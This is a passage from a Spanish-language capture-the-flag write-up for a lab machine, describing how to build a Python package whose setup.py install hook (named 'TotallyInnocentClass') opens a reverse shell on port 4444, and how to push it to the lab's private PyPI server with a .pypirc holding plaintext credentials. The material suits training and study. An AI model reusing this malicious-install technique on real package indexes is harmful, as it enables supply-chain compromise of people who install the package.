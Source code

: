 ```py
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    cmdclass={
        'install': TotallyInnocentClass
    }
)
```

Para la estructura y entendimiento me base en estos paquetes:

* [Ayrx + malicious-python-package](https://github.com/Ayrx/malicious-python-package/blob/master/setup.py).
* [mschwager + 0wned-package](https://github.com/mschwager/0wned/blob/master/setup.py).

Teniendo nuestro código malicioso lo que nos queda es ejecutarlo desde la máquina víctima, ponernos en escucha y obtener la reverse Shell por el puerto **4444**. Para ello usamos:

```bash
–» python3 setup.py sdist
```

El cual nos genera el siguiente árbol de objetos.

```bash
–» tree -a
.
├── dist
│   └── pycod3ate-0.0.5.tar.gz
├── LICENSE
├── pycod3ate
│   ├── __init__.py
│   └── __init__.pyc
├── pycod3ate.egg-info
│   ├── dependency_links.txt
│   ├── PKG-INFO
│   ├── SOURCES.txt
│   └── top_level.txt
├── README.md
└── setup.py
```

En este punto cuando subía `setup.py` a la máquina e intentaba ejecutarlo no pasaba nada, se creaban los archivos y parecía que todo iba bien pero no obtenía ningún output en la reverse Shell... Me queme un poco y de nuevo recurrí a `TazWake`

Me indico que lo óptimo es crear un archivo `.pypirc` el cual contenga unas credenciales (las de **pypi** que ya encontramos) y un repositorio al cual se van a subir los objetos, así `setup.py` sabe a donde apuntar, este sería nuestro archivo `.pypirc` (que debe ser alojado en el `$HOME`).

```bash
–» cat .pypirc 
[distutils]
index-servers =
    locuras

[locuras]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```

